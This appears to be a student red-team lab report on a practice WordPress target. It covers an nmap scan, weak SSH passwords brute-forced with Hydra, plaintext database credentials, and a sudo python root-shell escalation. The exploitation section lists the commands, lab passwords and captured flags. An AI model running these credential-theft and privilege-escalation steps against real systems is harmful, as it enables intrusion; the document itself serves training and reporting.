 # Red Team: Summary of Operations

## Table of Contents
- [Exposed Services](#exposed-services)
- [Critical Vulnerabilities](#critical-vulnerabilities)
- [Exploitation](#exploitation)

### Exposed Services

Nmap scan results for each machine reveal the below services and OS details:

![nmapscan](./Images/nmap scan.JPG)

This scan identifies the services below as potential points of entry:
- Target 1
  - Port 22 (SSH)
  - Port 80 (HTTP)
  - Port 111 (rpcbind)
  - Port 139 (netbios-ssn)
  - Port 445 (netbios-ssn)

### Critical Vulnerabilities

The following vulnerabilities were identified on each target:
- Target 1
  - wpscan enumerate usernames
	- running wpscan was able to enumerate usernames for the target system.
     (insert wpscan screenshots)

  - SSH with password.
	- Users are able to SSH with a password instead of requiring an SSH key.
	- User michael had a weak password(Brute forced with HYDRA)
	(insert hydra screenshot)

  - Database credentials for wordpress are written in plain text.
	- Database credentials were stored in /var/www/html/
	- This allowed me to access the mysql database and extract confidential information such as password hashes.

  - python can be run with sudo privilages.
	- The user steven has the ability to run python with sudo.
	- Running python with sudo can execute arbitrary code on the system to get a shell with root access.


_TODO: Include vulnerability scan results to prove the identified vulnerabilities._

### Exploitation
_TODO: Fill out the details below. Include screenshots where possible._

The Red Team was able to penetrate `Target 1` and retrieve the following confidential data:
- Target 1
  
  - `flag1`: `b9bbcb33e11b80be759c4e844862482d`
    - **Exploit Used**
      - Weak password / SSH into system with password.
      - After connecting to the system using michael's credentials, I was able to run the grep command in the `/var` directory and discovered flag1 was contained in `/var/www/html/service.html`.
    - Commands run:
	- `ssh michael@192.168.1.110` (password michael)
	- `cd /var`
	- `grep -rnw ./ -e flag1 2>/dev/null`

  - `flag2.txt`: `fc3fd58dcdad9ab23faca6e9a36e581c`
    - **Exploit Used**
      - Weak password / SSH into system with password.
      - After connecting to the system using michael's credentials, I was able to cat the flag 2 file found in /var/www.
    - Commands run:
	- `ssh michael@192.168.1.110` (password michael)
	- `cd /var/www`
	- `cat flag2.txt`

  - 'flag3': `afc01ab56b50591e7dccf93122770cd2`
    - **Exploit Used**
      - Datbase credentails in plain text.
      - I was able to select `flag3` out of wp_posts in the mysql database after obtaining the credentails in 		`/var/www/html/wp_config.php`.
    - Commands run:
	- `ssh michael@192.168.1.110` (password michael)
	- `cat /var/www/html/wp_config.php`
	- `mysql -u root -p` (password R@v3nSecurity)
	- `USE wordpress;`
	- `USE wp_posts;`
	- `SELECT * FROM wp_posts;`

  - 'flag4.txt': `715dea6c055b9fe3337544932f2941ce`
    - **Exploit Used**
      - `python` can be run with `sudo`.
      - After cracking steven's password hash using john the ripper, it was discovered that steven could run `python` with `sudo` 	priviliages.
      - Using a simple command I was able to execute a shell with root privilages and `flag4` was found in the `/root` directory.
     - Commands run:
	- `ssh steven@192.168.1.110 (password pink84)`
	- `python -c 'import os; os.system("/bin/sh")'`
	- `cat /root/flag4.txt`
